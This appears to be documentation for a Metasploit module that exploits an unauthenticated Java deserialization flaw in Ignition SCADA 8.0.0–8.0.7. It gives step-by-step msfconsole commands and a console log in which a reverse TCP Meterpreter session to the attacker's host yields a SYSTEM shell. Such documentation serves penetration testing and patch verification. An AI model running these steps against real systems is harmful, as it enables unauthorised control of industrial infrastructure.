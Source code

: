 ## Vulnerable Application
This module exploits a Java deserialization vulnerability in the Inductive Automation Ignition SCADA product,
versions 8.0.0 to (and including) 8.0.7.
This exploit was tested on versions 8.0.0 and 8.0.7 on both Linux and Windows.
The default configuration is exploitable by an unauthenticated attacker, which can achieve remote code execution as
SYSTEM on a Windows installation and root on Linux.
The vulnerability was discovered and exploited at Pwn2Own Miami 2020 by the Flashback team (Pedro Ribeiro +
Radek Domanski).

Vulnerable versions can be downloaded from here: https://inductiveautomation.com/downloads/archive/8.0.7
We have confirmed versions 8.0.0 to 8.0.7 are vulnerable.

## Verification Steps

1. Install application
2. Start msfconsole
3. Do: `use exploit/multi/scada/inductive_ignition_rce`
4. Do: `set rhost <TARGET_IP>`
5. Do: `set lhost <YOUR_IP>`
6. Do: `run`
7. You will get a SYSTEM or root shell

## Options

```
Module options (exploit/multi/scada/inductive_ignition_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    8088             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   Windows
   2   Linux
```

## Scenarios
```
msf5 exploit(multi/scada/inductive_ignition_rce) > set rhost 10.10.10.204
rhost => 10.10.10.204
msf5 exploit(multi/scada/inductive_ignition_rce) > set lhost 10.10.10.1
lhost => 10.10.10.1
msf5 exploit(multi/scada/inductive_ignition_rce) > check

[*] 10.10.10.204:8088 - Detected version 8.0.7
[*] 10.10.10.204:8088 - The target appears to be vulnerable.
msf5 exploit(multi/scada/inductive_ignition_rce) > run

[*] Started reverse TCP handler on 10.10.10.1:4444
[*] 10.10.10.204:8088 - Attacking Windows target
[*] 10.10.10.204:8088 - Detected version 8.0.7
[*] 10.10.10.204:8088 - Sending payload...
[+] 10.10.10.204:8088 - Success, shell incoming!
[*] Sending stage (180291 bytes) to 10.10.10.204
[*] Meterpreter session 1 opened (10.10.10.1:4444 -> 10.10.10.204:49186) at 2020-06-12 11:16:54 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 784 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Program Files\Inductive Automation\Ignition>whoami
whoami
nt authority\system

C:\Program Files\Inductive Automation\Ignition>
```

